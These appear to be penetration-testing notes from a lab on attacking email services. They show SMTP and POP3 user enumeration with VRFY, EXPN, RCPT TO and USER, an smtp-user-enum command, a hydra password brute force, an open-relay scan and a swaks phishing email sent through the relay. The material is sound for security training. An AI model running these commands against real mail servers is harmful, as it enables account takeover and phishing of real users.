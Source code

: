 | **Port**  | **Service**                                                                | **Used to Send/Receive**          |
| --------- | -------------------------------------------------------------------------- | --------------------------------- |
| `TCP/25`  | SMTP Unencrypted                                                           | Sending emails only               |
| `TCP/143` | IMAP4 Unencrypted                                                          | Receiving emails                  |
| `TCP/110` | POP3 Unencrypted                                                           | Receiving emails                  |
| `TCP/465` | SMTP Encrypted                                                             | Sending emails securely (SSL/TLS) |
| `TCP/587` | SMTP Encrypted/[STARTTLS](https://en.wikipedia.org/wiki/Opportunistic_TLS) | Sending emails with encryption    |
| `TCP/993` | IMAP4 Encrypted                                                            | Receiving emails securely         |
| `TCP/995` | POP3 Encrypted                                                             | Receiving emails securely         |
### User Enumeration

`VRFY` this command instructs the receiving SMTP server to check the validity of a particular email username. The server will respond, indicating if the user exists or not. This feature can be disabled.

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

VRFY root

252 2.0.0 root

VRFY www-data

252 2.0.0 www-data

VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```

`EXPN` is similar to `VRFY`, except that when used with a distribution list, it will list all users on that list. This can be a bigger problem than the `VRFY` command since sites often have an alias such as "all."

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

EXPN john

250 2.1.0 john@inlanefreight.htb

EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

`RCPT TO` identifies the recipient of the email message. This command can be repeated multiple times for a given message to deliver a single message to multiple recipients.

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok

RCPT TO:julio

550 5.1.1 julio... User unknown

RCPT TO:kate

550 5.1.1 kate... User unknown

RCPT TO:john

250 2.1.5 john... Recipient ok
```

We can also use the `POP3` protocol to enumerate users depending on the service implementation. For example, we can use the command `USER` followed by the username, and if the server responds `OK`. This means that the user exists on the server.


```bash
telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR

USER john

+OK
```

### Summary

| **Command** | **Function**                                                                                                                   |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------ |
| VRFY        | Verifies the existence of a specific email address. Returns the full address if valid, otherwise indicates non-existence.      |
| EXPN        | Expands a mailing list or group. Returns the members of the mailing list if available, or an error if the list does not exist. |
| **RCPT TO** | Specifies the recipient(s) of an email in the SMTP transaction. Used to define individual or multiple recipients.              |

### Automatite Process

```bash
smtp-user-enum -M RCPT -U userlist.txt -d inlanefreight.htb -t 10.129.203.7
```

Once users have been gather we can brute force the password:

```bash
hydra -l marlin@inlanefreight.htb -P passwords.list -f 10.129.203.12 pop3 -VV -F -I -t 64
```

### Open Relay

```bash
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

Send Email to Open Relay:

```bash
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

### Connect to POP3 - Retrieve Emails

Connect and enter username and password:

```bash
telnet 10.129.203.12 110
Trying 10.129.203.12...
Connected to 10.129.203.12.
Escape character is '^]'.
+OK POP3 server ready
USER john.doe
+OK User name accepted, password please
PASS mypassword123
+OK Mailbox locked and ready
```

Check Messages:

```bash
LIST
+OK 1 messages (601 octets)
1 601
```

Retrieve Message 1:

```bash
RETR 1
```

